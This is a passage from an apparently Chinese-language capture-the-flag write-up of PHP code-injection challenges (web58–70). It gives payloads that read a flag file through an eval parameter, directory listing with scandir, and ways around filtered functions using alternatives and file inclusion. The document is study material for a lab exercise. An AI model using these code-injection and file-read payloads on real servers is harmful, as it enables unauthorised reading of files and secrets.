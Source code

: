 然后看到了 index 里的 `highlight_file(__FILE__)`, 也能够读取 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091147054.png)

payload 如下

```php
echo file_get_contents('flag.php')
echo fread(fopen('flag.php','r'),filesize('flag.php'))
highlight_file('flag.php')
show_source('flag.php')
readfile('flag.php')
print_r(file('flag.php'));
```

之前的无参数读取文件在这里也能用

## web59-65

同上

或者配合伪协议进行文件包含, eval 在这里比较灵活, 方法很多

## web66

flag 换了个位置

```
c=print_r(scandir('/')); # 列出 / 目录下的所有文件
c=highlight_file('/flag.txt');
```

其实只要题目源码能看得到, `highlight_file()` 就一直能用...

## web67

`print_r()` 被过滤了, 换成 `var_dump()` 或者 `var_export()`

`scandir()` 返回的是数组, 其实就算被过滤了也可以加下标 echo 输出或者写个循环

## web68

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091209962.png)

都被过滤了, 换成文件包含, 盲猜一个 /flag.txt

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091210748.png)

`scandir()` 没有被过滤, 严谨一点列目录再读取也可以

## web69-70

同上
